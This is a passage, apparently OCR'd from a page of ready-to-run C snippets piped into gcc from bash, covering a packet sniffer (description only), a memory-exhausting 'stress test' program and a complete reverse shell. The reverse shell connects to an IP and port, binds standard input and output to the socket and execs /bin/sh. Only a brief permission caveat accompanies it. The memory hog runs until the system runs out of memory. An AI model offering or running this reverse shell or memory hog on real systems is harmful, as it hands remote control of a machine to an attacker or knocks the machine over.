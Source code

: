 **Description**: This sniffer captures all packets at the Ethernet layer, printing them in hex. It operates similarly to `tcpdump` but written directly in C for minimal overhead.

---

### **5. Memory Overwriter for Stress Testing**

Allocates and writes into increasingly larger memory blocks until the system runs out of memory (be cautious with this one).

```bash
echo '#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

int main() {
    size_t size = 1024 * 1024 * 10;  // start with 10 MB
    while (1) {
        void *p = malloc(size);
        if (!p) break;
        memset(p, 0, size);  // force allocation to physical memory
        printf("Allocated %zu bytes\n", size);
        size += 1024 * 1024 * 10;  // increase by 10 MB each time
        sleep(1);
    }
    return 0;
}' | gcc -x c - -o memoryhog && ./memoryhog
```

**Description**: Continuously allocates and fills memory, increasing by 10 MB each time until failure. Useful for testing how a system handles memory pressure and the effects of the OOM (Out of Memory) killer.

---

### **6. Reverse Shell**

Establishes a reverse shell to a specified IP and port. Only use on test systems with permission!

```bash
echo '#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <arpa/inet.h>

int main() {
    int s = socket(AF_INET, SOCK_STREAM, 0);
    struct sockaddr_in server;
    server.sin_family = AF_INET;
    server.sin_addr.s_addr = inet_addr("192.168.1.100");  // replace with your IP
    server.sin_port = htons(4444);  // replace with your port
    connect(s, (struct sockaddr *)&server, sizeof(server));
    dup2(s, 0); dup2(s, 1); dup2(s, 2);
    execve("/bin/sh", NULL, NULL);
    return 0;
}' | gcc -x c - -o reverseshell && ./reverseshell
```
